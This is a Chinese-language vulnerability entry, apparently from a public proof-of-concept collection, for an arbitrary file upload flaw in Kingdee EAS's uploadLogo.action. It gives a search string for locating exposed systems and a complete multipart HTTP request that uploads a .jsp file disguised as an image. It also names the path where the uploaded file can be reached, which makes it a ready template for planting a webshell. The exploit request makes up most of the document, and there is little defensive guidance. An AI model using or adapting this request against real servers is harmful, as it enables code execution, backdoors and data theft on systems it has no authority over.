

# 金蝶OA EAS系统 uploadLogo.action 任意文件上传漏洞

## 漏洞描述

金蝶 EAS 及 EAS Cloud 是金蝶软件公司推出的一套企业级应用软件套件，旨在帮助企业实现全面的管理和业务流程优化。金蝶 EAS 及 EAS Cloud 在 uploadLogo.action 存在文件上传漏洞，攻击者可以利用文件上传漏洞执行恶意代码、写入后门、读取敏感文件，从而可能导致服务器受到攻击并被控制。

## 漏洞影响

金蝶OA EAS系统

## 网络测绘

```
"/easportal/"
```

## 漏洞复现

登陆页面


poc

```
POST /plt_portal/setting/uploadLogo.action HTTP/1.1
Host: 
User-Agent: Mozilla/5.0 (Macintosh;T2lkQm95X0c= Intel Mac OS X 10_14_3) AppleWebKit/605.1.15 (KHTML, like Gecko) Version/12.0.3 Safari/605.1.15
Accept-Encoding: gzip
Content-Type: multipart/form-data; boundary=----WebKitFormBoundarycxkT8bV6WLIUzm2p

------WebKitFormBoundarycxkT8bV6WLIUzm2p
Content-Disposition: form-data; name="chooseLanguage_top"
ch

------WebKitFormBoundarycxkT8bV6WLIUzm2p
Content-Disposition: form-data; name="dataCenter"

xx
------WebKitFormBoundarycxkT8bV6WLIUzm2p 
Content-Disposition: form-data; name="insId"

------WebKitFormBoundarycxkT8bV6WLIUzm2p
Content-Disposition: form-data; name="type"

top
------WebKitFormBoundarycxkT8bV6WLIUzm2p
Content-Disposition: form-data; name="upload"; filename="text.jsp"
Content-Type: image/jpeg

Test
------WebKitFormBoundarycxkT8bV6WLIUzm2p--
```



```
/portal/res/file/upload/xxx.jsp
```

